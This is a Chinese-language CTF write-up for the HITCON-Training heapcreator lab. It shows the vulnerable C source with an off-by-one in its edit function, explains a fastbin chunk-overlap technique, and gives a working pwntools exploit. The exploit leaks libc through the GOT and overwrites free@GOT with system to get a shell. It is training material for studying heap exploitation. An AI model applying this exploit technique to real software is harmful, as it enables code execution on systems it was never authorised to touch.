



题目来自[HITCON-Training](https://github.com/scwuaptx/HITCON-Training)@Angelboy，溢出一字节修改fastbin chunk size，free获取稍微large的fastbin chunk。再次malloc实现fastbin chunk overlap，从而可以修改关键指针，hjiack got getshell！

## 题目信息

源码见这里：https://github.com/thinkycx/pwn/blob/master/HITCON-Training/lab13/heapcreator.c

程序中有一个struct heap，提供4个功能，其中edit功能存在off-by-one漏洞！

```c
struct heap {
	size_t size ;
	char *content ;
};
struct heap *heaparray[10];

void menu(){
	puts("--------------------------------");
	puts("          Heap Creator          ");
	puts("--------------------------------");
	puts(" 1. Create a Heap               ");
	puts(" 2. Edit a Heap                 ");
	puts(" 3. Show a Heap                 ");
	puts(" 4. Delete a Heap               ");
	puts(" 5. Exit                        ");
	puts("--------------------------------");
	printf("Your choice :");
}

void create_heap(){
	int i ;
	char buf[8];
	size_t size = 0;
	for(i = 0 ; i < 10 ; i++){
		if(!heaparray[i]){
			heaparray[i] = (struct heap *)malloc(sizeof(struct heap));
			if(!heaparray[i]){
				puts("Allocate Error");
				exit(1);
			}
			printf("Size of Heap : ");
			read(0,buf,8);
			size = atoi(buf);
			heaparray[i]->content = (char *)malloc(size);
			if(!heaparray[i]->content){
				puts("Allocate Error");
				exit(2);
			}
			heaparray[i]->size = size ;
			printf("Content of heap:");
			read_input(heaparray[i]->content,size);
			puts("SuccessFul");
			break ;
		}
	}
}

void edit_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);
		puts("Done !");
	}else{
		puts("No such heap !");
	}
}
void show_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Size : %ld\nContent : %s\n",heaparray[idx]->size,heaparray[idx]->content);
		puts("Done !");
	}else{
		puts("No such heap !");
	}

}

void delete_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		free(heaparray[idx]->content);
		free(heaparray[idx]);
		heaparray[idx] = NULL ;
		puts("Done !");	
	}else{
		puts("No such heap !");
	}

}
```


## exploit

思路：假设malloc 0x18，chunk会复用下一个chunk的PREV_SIZR，因此可以利用多写的一个字节，来overflow nextchunk 的 SIZE。这时free nextchunk就可以获取larget fastbin chunk，再次malloc导致chunk overlap，可以实现关键指针！本题中利用chunk overlap控制heap->content，使用show泄漏GOT，使用edit hijack free@GOT为system，free一个content为"/bin/sh\x00"的字符串就可以getshell。

具体的关于overlap的细节如下：

如下图所示：申请两次，获得chunk0 chunk1 chunk2 chunk3，其中chun0和chunk2是保存的heap结构体。edit chunk1可写0x19字节，因此多的一个字节可以溢出0x21，修改为0x41。



溢出后，free chunk2 chunk3，就可以获取一个0x40和0x20大小的fastbin chunk。再次malloc实现chunk overlap，由于create函数中是循环操作，因此申请create 0x40时，正好可以把fastbin中的两个chunk申请回来，一个是data的chunk，一个是heap结构体的chunk。



exploit：

```python
def pwn(io):
    if local&debug: gdb.attach(io,'break *0x400db1') # main atoi
    log.info("[1] create chunk,  overwrite chunk2's size and free chunk2, get 2 fastbin chunks")
    create(0x18, "") # 0 1 chunk0
    create(0x10, "") # 0 1 2 3   chunk1
    create(0x10, "") # 0 1 2 3 4 5 6 chunk2

    payload_overflow = "a"*0x10 + p64(0xdeadbeafdeadbeaf) + "\x41"
    edit(0, payload_overflow)
    delete(1) # get fastbin chunk in  0x40

    log.info("[2] get 0x40 chunk, chunk overlap! overwrite free@got to content ptr")
    payload_got = p64(0x0)*2 + p64(0) + p64(0x21) + p64(0x8)  + p64(elf.got['free'])
    create(0x38, payload_got) # chunk3
    show(1)

    io.recvuntil("Content : ")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['free']
    log.success("libc.address: %#x", libc.address)

    log.info("system addr: %#x", libc.symbols['system'])

    log.info("[3] write system addr to free@got")
    edit(1, p64(libc.symbols['system']))

    create(0x18, "/bin/sh\x00")
    delete(3)
```



